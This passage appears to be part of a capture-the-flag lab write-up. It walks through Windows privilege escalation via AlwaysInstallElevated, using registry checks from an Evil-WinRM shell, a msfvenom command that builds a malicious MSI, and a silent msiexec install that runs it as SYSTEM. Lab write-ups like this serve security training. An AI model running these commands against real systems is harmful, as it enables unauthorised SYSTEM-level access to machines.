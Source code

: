 **🎯 FLAG 12 FOUND**: FLAG{N**********6} - Unquoted service path 3

### FLAG 13: AlwaysInstallElevated

**Location**: MSI privilege escalation  
**Difficulty**: Medium

```powershell
# Check if vulnerable (both must be 1)
*Evil-WinRM* PS C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

*Evil-WinRM* PS C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

**Both are 0x1 - System is vulnerable!**

Create malicious MSI on Kali:
```bash
┌──(kali㉿kali)-[~/tools]
└─$ msfvenom -p windows/x64/exec CMD='cmd.exe /c type C:\Users\Administrator\Desktop\msi_privesc_flag.txt > C:\msi_flag.txt' -f msi -o exploit.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 308 bytes
Final size of msi file: 159744 bytes
Saved as: exploit.msi
```

Execute on target:
```powershell
*Evil-WinRM* PS C:\Temp> upload exploit.msi
*Evil-WinRM* PS C:\Temp> msiexec /quiet /qn /i exploit.msi

# Check for flag
*Evil-WinRM* PS C:\Temp> Get-Content C:\msi_flag.txt
FLAG{W************5}
```

**🎯 FLAG 13 FOUND**: FLAG{W**********5} - AlwaysInstallElevated

**Why This Works**: When AlwaysInstallElevated is set, ANY user can install MSI packages with SYSTEM privileges!

### FLAG 14: Print Spooler Vulnerability
